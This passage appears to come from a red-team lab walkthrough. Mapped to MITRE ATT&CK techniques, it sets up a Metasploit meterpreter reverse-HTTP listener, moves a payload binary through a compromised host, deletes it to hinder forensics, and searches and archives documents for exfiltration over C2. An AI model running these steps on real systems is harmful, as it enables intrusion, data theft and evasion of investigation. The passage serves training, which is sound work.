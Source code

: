 </details>

Set up a listener at the jumphost using `msfconsole`.\
Transfer the created binary to the target host and execute it.

<details open>
<summary>
Solution
</summary>

* Start `msfconsole` as `root` since you will set the listener for privileged port 80: `sudo msfconsole`.
* Run the following Metasploit commands:
```
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter_reverse_http
set LHOST eth0
set LPORT 80
run
```
* You should get a message `Started HTTP reverse handler on http://10.0.10.22:80`

* Let the msfconsole open and start a new session at `attacker` and connect to the jumphost.
* Copy the created binary (`test`) from jumphost to the target via the compromised server: `scp test novak@10.0.128.2:/tmp` at jumphost and then `scp /tmp/test novak@10.0.129.2:/tmp` at server.
* Do not forget to delete `test` at the server to make it more difficult for a post-compromise analysis.
* Execute the binary at the target. You should see `[*] Meterpreter session 1 opened` at the jumphost.

</details>

### Task: Search and collect sensitive documents

[T1059](https://attack.mitre.org/techniques/T1059/) and [T1560](https://attack.mitre.org/techniques/T1560/)

Now you can command and control the host directly from the jumphost without SSH.

Use Meterpreter to search for meeting minutes and archive them for exfiltration.

<details open>
<summary>
Solution
</summary>

* `search -f *.docx` yields two interesting documents.
* `/home/novak/Documents` contains only the two documents.
* Use Meterpreter `shell` command to archive the documents using your favourite utility, such as `tar cf data.tar *`.

</details>

### Task: Exfiltration Over C2 Channel

[T1041](https://attack.mitre.org/techniques/T1041/)
